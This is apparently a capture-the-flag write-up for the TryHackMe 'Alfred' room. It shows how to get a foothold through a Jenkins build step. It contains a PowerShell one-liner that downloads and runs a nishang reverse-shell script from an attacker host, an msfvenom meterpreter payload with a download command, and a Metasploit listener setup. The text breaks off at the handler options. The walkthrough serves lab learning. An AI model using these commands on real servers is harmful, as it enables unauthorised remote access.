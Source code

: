 # foothold
now when we in Jenkins (what is [Jenkins](https://youtu.be/LFDrDnKPOTg)), the plan is create a new Project and use created project to execute a powershell to get our reverse shell. Now let get our revershell.ps from a OP github project call [nishang](https://github.com/samratashok/nishang)

```console
kali@kali:~/THM/alfred$ wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
--2020-07-22 17:07:38--  https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.192.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4339 (4.2K) [text/plain]
Saving to: ‘Invoke-PowerShellTcp.ps1’

Invoke-PowerShellTcp.ps1 100%[=================================>]   4.24K  --.-KB/s    in 0s      

2020-07-22 17:07:38 (39.2 MB/s) - ‘Invoke-PowerShellTcp.ps1’ saved [4339/4339]
kali@kali:~/THM/alfred$ python -m SimpleHTTPServer 8888 # set up the server
```
now we gonna get Jenkins to fetch our reverse shell from our server and execute it. Go to Jenkis dashboad and follow this step (read more [here](https://stackoverflow.com/questions/21276351/how-can-i-execute-shell-script-in-jenkinsfile)):
1. Click on `New Item` (left panel)
2. Give it a name + select `freestyle project` -> next
3. Go to `Build Enviroment` and insert this following:
```
powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port 6969
```
4. On kali, open netcat and listen for incoming shell
5. Back to Jenkin where we left, press `apply` + `save`
visite alfred.thm:8080/job/kurohat/build or press `build now` to build our project. *user flag* can be found in Desktop:

## switching to msfconsole shell
```console
kali@kali:~/THM/alfred$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<ip> LPORT=9696 -f exe -o shell.exe #create shell
kali@kali:~/THM/alfred$ python -m SimpleHTTPServer 8888
```

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.14.151:8888/shell.exe','shell.exe')"

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.8.14.151 set LPORT 9696  run

```
msf5 exploit(multi/http/struts2_content_type_ognl) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

```